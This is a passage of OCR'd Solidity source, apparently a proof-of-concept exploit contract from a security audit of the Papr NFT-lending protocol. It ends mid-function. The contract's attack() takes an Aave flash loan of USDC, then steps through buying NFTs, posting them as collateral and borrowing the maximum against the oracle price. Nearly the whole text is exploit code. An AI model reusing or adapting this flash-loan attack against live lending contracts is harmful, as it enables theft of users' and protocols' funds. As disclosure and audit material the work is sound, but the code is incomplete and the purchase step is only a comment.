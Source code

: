    contract BobContract {
        IPaprController iPaprController;
        IFundingRateController iFundingRateController;
        IAAVE iAAVE;
        ERC721 nftCollectionAddress;
        ERC20 paprToken;
        Collateral[] collaterals;
        OracleInfo oracleInfo;
        uint256 numOfCallback;
        address USDC = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    
        constructor(
            address _paprControllerAddress,
            address _fundingRateControllerAddress,
            address _aaveAddress,
            ERC721 _nftCollectionAddress,
            OracleInfo memory _oracleInfo,
            ERC20 _paprToken
        ) {
            iPaprController = IPaprController(_paprControllerAddress);
            iFundingRateController = IFundingRateController(
                _fundingRateControllerAddress
            );
            iAAVE = IAAVE(_aaveAddress);
            nftCollectionAddress = _nftCollectionAddress;
            oracleInfo = _oracleInfo;
            paprToken = _paprToken;
        }
    
        function attack() public {
            ///// STEP1: taking flash loan
            iAAVE.flashLoanSimple(address(this), USDC, 10 * 50000 * 10**6, "", 0);
        }
    
        function executeOperation(
            address[] calldata assets,
            uint256[] calldata amounts,
            uint256[] calldata premiums,
            address initiator,
            bytes calldata params
        ) external returns (bool) {
            ///// STEP2: buying 10 NFTs
    
            // Buy 10 NFTs that each worths almost 50k
            // Assume the ids are from 1 to 10
    
            ///// STEP3: adding the NFTs as collateral
            for (uint256 i = 0; i < 10; ++i) {
                collaterals.push(Collateral({addr: nftCollectionAddress, id: i}));
            }
            iPaprController.addCollateral(collaterals);
    
            ///// STEP4: borrowing as much as possible
            uint256 oraclePrice = iPaprController.underwritePriceForCollateral(
                nftCollectionAddress,
                PriceKind.LOWER,
                oracleInfo
            );
    